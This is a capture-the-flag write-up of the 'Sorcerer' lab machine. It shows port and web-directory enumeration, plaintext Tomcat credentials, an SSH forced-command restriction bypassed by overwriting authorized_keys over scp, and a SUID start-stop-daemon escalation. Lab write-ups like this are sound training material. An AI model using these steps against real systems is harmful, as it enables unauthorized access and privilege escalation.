


# Network Enumeration

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ sudo nmap -p22,80,111,8080 -A 192.168.171.100      
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 07:10 EDT
Nmap scan report for 192.168.171.100
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 81:2a:42:24:b5:90:a1:ce:9b:ac:e7:4e:1d:6d:b4:c6 (RSA)
|   256 d0:73:2a:05:52:7f:89:09:37:76:e3:56:c8:ab:20:99 (ECDSA)
|_  256 3a:2d:de:33:b0:1e:f2:35:0f:8d:c8:d7:8f:f9:e0:0e (ED25519)
80/tcp   open  http    nginx
|_http-title: Site doesn't have a title (text/html).
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      44362/udp   mountd
|   100005  1,2,3      45093/tcp   mountd
|   100021  1,3,4      41331/tcp   nlockmgr
|   100021  1,3,4      58919/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
8080/tcp open  http    Apache Tomcat 7.0.4
|_http-title: Apache Tomcat/7.0.4
|_http-favicon: Apache Tomcat
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: VoIP adapter|general purpose
Running (JUST GUESSING): Cisco embedded (88%), Linux 2.6.X (88%)
OS CPE: cpe:/h:cisco:unified_call_manager cpe:/o:linux:linux_kernel:2.6.26
Aggressive OS guesses: Cisco Unified Communications Manager VoIP adapter (88%), Linux 2.6.26 (PCLinuxOS) (88%), Linux 2.6.32 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   260.90 ms 192.168.45.1
2   260.87 ms 192.168.45.254
3   262.14 ms 192.168.251.1
4   262.31 ms 192.168.171.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 51.09 seconds
```

# Port enumeration

## Port 80

```bash
──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ feroxbuster --url "http://192.168.171.100"     

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.171.100
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        1l        3w       14c http://192.168.171.100/
[#######>------------] - 3m     11537/30000   3m      found:1       errors:6      
[#######>------------] - 3m     11530/30000   72/s    http://192.168.171.100/                                                      
[####################] - 6m     30000/30000   0s      found:1       errors:9      
[####################] - 6m     30000/30000   77/s    http://192.168.171.100/
```

Can't find anything in port 80.

## Port 111

For port 111, we can see the [Pentest-rpcblind](https://book.hacktricks.xyz/network-services-pentesting/pentesting-rpcbind) from `HackTricks`, if we found the service `nfs` then probably you will be able to list and download(and maybe upload) files. Use `rpcinfo` to get more informations.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$  rpcinfo 192.168.171.100
   program version netid     address                service    owner
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100005    1    udp       0.0.0.0.233.245        mountd     superuser
    100005    1    tcp       0.0.0.0.174.123        mountd     superuser
    100005    2    udp       0.0.0.0.213.200        mountd     superuser
    100005    2    tcp       0.0.0.0.176.95         mountd     superuser
    100005    3    udp       0.0.0.0.173.74         mountd     superuser
    100005    3    tcp       0.0.0.0.176.37         mountd     superuser
    100003    3    tcp       0.0.0.0.8.1            nfs        superuser
    100003    4    tcp       0.0.0.0.8.1            nfs        superuser
    100227    3    tcp       0.0.0.0.8.1            nfs_acl    superuser
    100003    3    udp       0.0.0.0.8.1            nfs        superuser
    100227    3    udp       0.0.0.0.8.1            nfs_acl    superuser
    100021    1    udp       0.0.0.0.230.39         nlockmgr   superuser
    100021    3    udp       0.0.0.0.230.39         nlockmgr   superuser
    100021    4    udp       0.0.0.0.230.39         nlockmgr   superuser
    100021    1    tcp       0.0.0.0.161.115        nlockmgr   superuser
    100021    3    tcp       0.0.0.0.161.115        nlockmgr   superuser
    100021    4    tcp       0.0.0.0.161.115        nlockmgr   superuser
```

Yes I can find the `nfs` service, then maybe the port 2049 also opened, use `nmap` to check the detail.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ sudo nmap -p2049 -A 192.168.171.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 07:15 EDT
Nmap scan report for 192.168.171.100
Host is up (0.26s latency).

PORT     STATE SERVICE VERSION
2049/tcp open  nfs     3-4 (RPC #100003)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: firewall
Running: Fortinet embedded
OS details: Fortinet FortiGate-50B or 310B firewall
Network Distance: 4 hops

TRACEROUTE (using port 2049/tcp)
HOP RTT       ADDRESS
1   257.93 ms 192.168.45.1
2   257.91 ms 192.168.45.254
3   258.83 ms 192.168.251.1
4   258.83 ms 192.168.171.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.25 seconds
```

Port 2049 opened, so following the [nfs-pentesting](https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting) to do next action

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ showmount -e 192.168.171.100       
Export list for 192.168.171.100:
```

But there are not lists for sharing.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ nmap -sV --script=nfs-* 192.168.171.100 -p111,2049
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 07:29 EDT
Nmap scan report for 192.168.171.100
Host is up (0.78s latency).

PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2-4 (RPC #100000)
|_nfs-showmount: No NFS mounts available
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100003  3           2049/udp   nfs
|   100003  3,4         2049/tcp   nfs
|   100005  1,2,3      44362/udp   mountd
|   100005  1,2,3      45093/tcp   mountd
|   100021  1,3,4      41331/tcp   nlockmgr
|   100021  1,3,4      58919/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|_  100227  3           2049/udp   nfs_acl
2049/tcp open  nfs     3-4 (RPC #100003)
```


## Port 8080

Use `gobuster` shows there have `/manager` path.


The `manager` shows the tomcat password is `tomcat:s3cret`



---

# Execution port 1-10000 scanning

```bash
──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ sudo nmap -p1-10000 -Pn -sS 192.168.171.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 08:24 EDT
Nmap scan report for 192.168.171.100
Host is up (0.26s latency).
Not shown: 9994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
2049/tcp open  nfs
7742/tcp open  msss
8080/tcp open  http-proxy
```

## Port 7742

The port 7742 also opened.


That is a login page, but I don't have useful creds. Use `feroxbuster` to scan the web path.

```bash
┌──(aaron㉿aaron)-[~/Desktop/pg/Sorcerer]
└─$ feroxbuster --url "http://192.168.171.100:7742"

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.171.100:7742
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       65l      117w     1219c http://192.168.171.100:7742/
301      GET        7l       12w      178c http://192.168.171.100:7742/default => http://192.168.171.100:7742/default/
301      GET        7l       12w      178c http://192.168.171.100:7742/zipfiles => http://192.168.171.100:7742/zipfiles/
200      GET       13l       81w     4749c http://192.168.171.100:7742/zipfiles/francis.zip
200      GET       13l       82w     4741c http://192.168.171.100:7742/zipfiles/miriam.zip
200      GET       13l       82w     4733c http://192.168.171.100:7742/zipfiles/sofia.zip
200      GET       39l      203w    13898c http://192.168.171.100:7742/zipfiles/max.zip
[####################] - 4m     60005/60005   0s      found:7       errors:7      
[####################] - 4m     30000/30000   135/s   http://192.168.171.100:7742/ 
[####################] - 4m     30000/30000   138/s   http://192.168.171.100:7742/default/ 
[####################] - 1s     30000/30000   28874/s http://192.168.171.100:7742/zipfiles/ => Directory listing 
```

That shows there are some zip file on the `zipfiles`. The all zip files are home path. Let's see every home folder.

## francis


## max


## miriam


## sofia


---

As you can see, the max has some goods. We got the `tomcat-users.xml.bak`, get new password.


`tomcat:VTUD2XxJjf5LPmu6`

Also it has `id_rsa`, so try to use `id_rsa` to login.


But that said access denied. So check the `scp_wrapper.sh`.



This means when connect as the user max to SSH we can only execute commands that start with `scp`. As `SCP` runs over `SSH` we can use use `id_rsa` file from Max to connect and overwrite the wrapper file with something more useful such as 'bash' instead of `scp`.


Now move `id_rsa` to my home folder. Then use `scp` to upload the `authorized_keys`, also the same way to upload the `scp_wrapper.sh`.

```bash
┌──(aaron㉿aaron)-[~/…/max/home/max/.ssh]
└─$ cat authorized_keys.bak 
no-port-forwarding,no-X11-forwarding,no-agent-forwarding,no-pty,command="/home/max/scp_wrapper.sh" ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC39t1AvYVZKohnLz6x92nX2cuwMyuKs0qUMW9Pa+zpZk2hb/ZsULBKQgFuITVtahJispqfRY+kqF8RK6Tr0vDcCP4jbCjadJ3mfY+G5rsLbGfek3vb9drJkJ0+lBm8/OEhThwWFjkdas2oBJF8xSg4dxS6jC8wsn7lB+L3xSS7A84RnhXXQGGhjGNfG6epPB83yTV5awDQZfupYCAR/f5jrxzI26jM44KsNqb01pyJlFl+KgOs1pCvXviZi0RgCfKeYq56Qo6Z0z29QvCuQ16wr0x42ICTUuR+Tkv8jexROrLzc+AEk+cBbb/WE/bVbSKsrK3xB9Bl9V9uRJT/faMENIypZceiiEBGwAcT5lW551wqctwi2HwIuv12yyLswYv7uSvRQ1KU/j0K4weZOqDOg1U4+klGi1is3HsFKrUZsQUu3Lg5tHkXWthgtlROda2Q33jX3WsV8P3Z4+idriTMvJnt2NwCDEoxpi/HX/2p0G5Pdga1+gXeXFc88+DZyGVg4yW1cdSR/+jTKmnluC8BGk+hokfGbX3fq9BIeiFebGnIy+py1e4k8qtWTLuGjbhIkPS3PJrhgSzw2o6IXombpeWCMnAXPgZ/x/49OKpkHogQUAoSNwgfdhgmzLz06MVgT+ap0To7VsTvBJYdQiv9kmVXtQQoUCAX0b84fazWQQ== max@sorcerer   

┌──(aaron㉿aaron)-[~/…/max/home/max/.ssh]
└─$ cat authorized_keys    
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQC39t1AvYVZKohnLz6x92nX2cuwMyuKs0qUMW9Pa+zpZk2hb/ZsULBKQgFuITVtahJispqfRY+kqF8RK6Tr0vDcCP4jbCjadJ3mfY+G5rsLbGfek3vb9drJkJ0+lBm8/OEhThwWFjkdas2oBJF8xSg4dxS6jC8wsn7lB+L3xSS7A84RnhXXQGGhjGNfG6epPB83yTV5awDQZfupYCAR/f5jrxzI26jM44KsNqb01pyJlFl+KgOs1pCvXviZi0RgCfKeYq56Qo6Z0z29QvCuQ16wr0x42ICTUuR+Tkv8jexROrLzc+AEk+cBbb/WE/bVbSKsrK3xB9Bl9V9uRJT/faMENIypZceiiEBGwAcT5lW551wqctwi2HwIuv12yyLswYv7uSvRQ1KU/j0K4weZOqDOg1U4+klGi1is3HsFKrUZsQUu3Lg5tHkXWthgtlROda2Q33jX3WsV8P3Z4+idriTMvJnt2NwCDEoxpi/HX/2p0G5Pdga1+gXeXFc88+DZyGVg4yW1cdSR/+jTKmnluC8BGk+hokfGbX3fq9BIeiFebGnIy+py1e4k8qtWTLuGjbhIkPS3PJrhgSzw2o6IXombpeWCMnAXPgZ/x/49OKpkHogQUAoSNwgfdhgmzLz06MVgT+ap0To7VsTvBJYdQiv9kmVXtQQoUCAX0b84fazWQQ== max@sorcerer 
┌──(aaron㉿aaron)-[~/…/max/home/max/.ssh]
└─$ scp ./authorized_keys max@192.168.171.100:/home/max/.ssh/authorized_keys
scp: Received message too long 1094927173
scp: Ensure the remote shell produces no output for non-interactive sessions.
┌──(aaron㉿aaron)-[~/…/max/home/max/.ssh]
└─$ scp -O  ./authorized_keys max@192.168.171.100:/home/max/.ssh/authorized_keys
authorized_keys                        100%  738     1.7KB/s   00:00
```

Then use `id_rsa` to login max.


# PE

### System Information


### Active Ports


### Users


### Useful software


### SUID !


Found the `suid` application `start-stop-daemon`, check on [GTFOBins](https://gtfobins.github.io/gtfobins/start-stop-daemon/)


Use the SUID to PE.


Get root.

